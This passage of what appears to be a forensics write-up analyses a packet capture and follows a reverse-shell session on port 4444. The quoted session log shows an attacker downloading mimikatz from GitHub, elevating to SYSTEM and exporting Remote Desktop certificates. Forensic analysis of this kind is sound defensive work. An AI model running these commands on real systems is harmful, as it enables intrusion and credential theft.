 For those who are familiar with cybersecurity and pentesting tools, this rings some alarm bells as port `4444` is an easy-to-remember port number that is very commonly used when establishing reverse shells.  It is helpful to filter for this traffic in Wireshark by using the filter; ``tcp.port == 4444``. Now - ignoring the first three packets in the resulting list (as these were part of the initial port scan and not the TCP conversation we're interested in), we can right-click on one of the packets further down the list and select **Follow** > **TCP Stream**.  This gives us a nice cleartext view of what went on in this session:

```
Windows PowerShell running as user Administrator on INTERN-PC
Copyright (C) Microsoft Corporation. All rights reserved.


PS C:\Users\Administrator> PS C:\Users\Administrator> 
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name                                             
----                -------------         ------ ----                                             
d-----       11/23/2023   9:47 PM                .ssh                                             
d-r---        3/17/2021   3:13 PM                3D Objects                                       
d-r---        3/17/2021   3:13 PM                Contacts                                         
d-r---       11/25/2023   2:12 PM                Desktop                                          
d-r---        3/17/2021   3:13 PM                Documents                                        
d-r---       11/24/2023  10:53 PM                Downloads                                        
d-r---        3/17/2021   3:13 PM                Favorites                                        
d-r---        3/17/2021   3:13 PM                Links                                            
d-r---        3/17/2021   3:13 PM                Music                                            
d-r---       11/24/2023  10:44 PM                Pictures                                         
d-r---        3/17/2021   3:13 PM                Saved Games                                      
d-r---        3/17/2021   3:13 PM                Searches                                         
d-r---        3/17/2021   3:13 PM                Videos                                           
-a----       11/25/2023   6:01 AM           8192 psh4444.exe                                      


PS C:\Users\Administrator> whoami
intern-pc\administrator
PS C:\Users\Administrator> wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -O mimi.zip
PS C:\Users\Administrator> Expand-Archive .\mimi.zip
PS C:\Users\Administrator> mv mimi/x64/mimikatz.exe .
PS C:\Users\Administrator> cmd /c mimikatz.exe privilege::debug token::elevate crypto::capi "crypto::certificates /systemstore:LOCAL_MACHINE /store:\`"Remote Desktop\`" /export" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

496	{0;000003e7} 1 D 16529     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
```